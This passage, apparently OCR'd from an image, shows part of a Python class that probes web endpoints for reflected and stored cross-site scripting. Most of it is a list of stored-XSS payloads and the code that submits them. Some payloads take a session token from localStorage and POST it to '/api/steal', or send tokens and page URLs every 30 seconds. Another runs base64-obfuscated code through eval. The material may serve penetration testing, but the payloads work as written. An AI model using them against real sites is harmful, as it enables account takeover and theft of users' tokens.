 ```python
                        )
                    
                    # Check if payload is reflected in response
                    if payload in response.text and response.status_code in [200, 201]:
                        vulnerable_endpoints.append({
                            'endpoint': endpoint,
                            'payload': payload,
                            'response_snippet': response.text[:200]
                        })
                        print(f"    ✓ Potential XSS found with payload: {payload}")
                        break
                        
                except Exception as e:
                    print(f"    ✗ Error testing {payload}: {e}")
        
        return vulnerable_endpoints
    
    def test_stored_xss(self, endpoint_info):
        """Test for stored XSS vulnerabilities"""
        print(f"\n[+] Testing stored XSS on {endpoint_info['endpoint']['url']}")
        
        # Advanced XSS payloads for stored XSS
        stored_payloads = [
            "<script>document.body.innerHTML='<h1>Stored XSS Executed</h1>'</script>",
            "<img src=x onerror=\"fetch('/api/steal', {method:'POST', body:localStorage.getItem('token')})\">",
            "<svg onload=\"eval(atob('YWxlcnQoJ1N0b3JlZCBYU1MnKQ=='))\">", # Base64 encoded alert
            "<iframe src=\"javascript:void(0)\" onload=\"this.contentDocument.write('<script>alert(\\'Stored XSS\\')</script>')\">",
            "<script>setInterval(function(){fetch('/api/monitor', {method:'POST', body:JSON.stringify({token:localStorage.token, url:location.href})})}, 30000)</script>"
        ]
        
        results = []
        
        for payload in stored_payloads:
            try:
                # Submit XSS payload
                if endpoint_info['endpoint']['method'] == 'POST':
                    data = {endpoint_info['endpoint']['param']: payload}
                    response = self.session.post(
                        f"{self.base_url}{endpoint_info['endpoint']['url']}",
                        json=data
                    )
                    
                    if response.status_code in [200, 201]:
                        # Wait for storage
                        time.sleep(2)
                        
                        # Try to trigger stored XSS by visiting the page
                        trigger_success = self.trigger_stored_xss(endpoint_info['endpoint']['url'], payload)
                        
                        if trigger_success:
                            results.append({
                                'payload': payload,
                                'stored': True,
                                'triggered': True
                            })
                            print(f"    ✓ Stored XSS confirmed with payload: {payload}")
                        
            except Exception as e:
                print(f"    ✗ Error testing stored XSS: {e}")
```
